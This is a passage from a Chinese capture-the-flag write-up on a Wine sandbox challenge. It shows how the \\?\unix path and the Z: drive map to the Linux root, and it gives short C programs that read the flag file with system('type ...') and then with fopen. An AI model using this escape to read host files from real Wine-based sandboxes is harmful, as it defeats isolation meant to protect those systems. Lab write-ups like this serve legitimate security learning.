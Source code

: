 文件管理器竟然还是能浏览根目录！怎么会逝呢？

![](./WineShadow/explorer-unix.png)

原来如此！使用默认的 `Z:`，或者使用网络地址 `\\?\unix`，都能映射到 Linux 根目录。

那么使用 `type \\?\unix\flag1` 命令，就可以打出内容。试试看。

```cpp
#include<stdio.h>
#include<stdlib.h>

int main() {
    system("type \\\\?\\unix\\flag1");
}
```

![](./WineShadow/3.png)

可以。把 exe 交上去看看？

<mdc-imgborder>

![](./WineShadow/fail.png)

</mdc-imgborder>

为什么不行呢？因为包括 `start.exe`, `cmd.exe`, `winebrowser.exe`, `wineconsole.exe` 在内的部分程序已从环境中删除。

那可以直接用文件读取的方法。

```cpp
#include<stdio.h>
#include<stdlib.h>

int main() {
    printf("Hello, world!\n");
    const char *filepath = "\\\\?\\unix\\flag1";
    FILE *fp = fopen(filepath, "r");
    char buf[4096];
    fgets(buf, 4096, fp);
    printf("%s\n", buf);
}
```

